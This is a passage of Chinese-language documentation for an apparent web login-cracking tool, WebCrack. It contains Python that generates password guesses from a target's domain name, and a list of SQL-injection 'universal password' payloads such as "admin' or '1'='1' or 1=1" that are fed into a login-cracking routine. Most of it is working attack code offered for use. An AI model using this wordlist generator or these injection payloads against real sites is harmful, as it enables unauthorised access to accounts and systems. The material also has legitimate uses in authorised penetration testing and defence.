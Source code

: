 ### 动态词典

根据域名自动生成动态词典

```python
def gen_dynam_dic(url):
    dynam_pass_dic = []
    tmp_dic = []
    suffix_dic = ['', '123', '888', '666', '123456']
    list1 = url.split('/')
    host = list1[2].split(":")[0]
    compile_ip = re.compile('^(1\d{2}|2[0-4]\d|25[0-5]|[1-9]\d|[1-9])\.(1\d{2}|2[0-4]\d|25[0-5]|[1-9]\d|\d)\.(1\d{2}|2[0-4]\d|25[0-5]|[1-9]\d|\d)\.(1\d{2}|2[0-4]\d|25[0-5]|[1-9]\d|\d)$')
    if compile_ip.match(host):
        check_ip = 1
    else:
        check_ip = 0
    if not check_ip:
        list2 = host.split(".")
        i = len(list2)
        for u in range(i):  # 生成url字典1
            list3 = list2[u:]
            part = '.'.join(list3)
            if (len(part) < 5):
                continue
            dynam_pass_dic.append(part)
        for u in range(i):  # 生成url字典2
            list3 = list2[u]
            if len(list3) < 5:
                continue
            tmp_dic.append(list3)
        for i in tmp_dic:
            for suffix in suffix_dic:
                u = i + suffix
                dynam_pass_dic.append(u)
        return dynam_pass_dic
    else:
        return ''
```

如果输入的是一个 IP，则返回一个空的列表。

### 万能密码

除了弱口令以外，还可能存在万能密码的漏洞，WebCrack中添加了一些常用的payload用来检测是否存在万能密码的漏洞。（缺陷：可能会被WAF拦截）

```python
exp_user_dic = ["admin' or 'a'='a", "'or'='or'", "admin' or '1'='1' or 1=1", "')or('a'='a", "'or 1=1--"]
exp_pass_dic = exp_user_dic

# ...

if exp_able:
    user_dic=exp_user_dic
    pass_dic=exp_pass_dic
    print('Exp_dic is trying')
    user_name, pass_word = crack_task( path, data, user_dic, pass_dic,user_key,pass_key,cms_id)
    if user_name:
        print("Rechecking......",url, user_name, pass_word)
        recheck_flag = recheck(path, data, user_name, pass_word)
    else:
        recheck_flag = 0
else:
    recheck_flag = 0
```
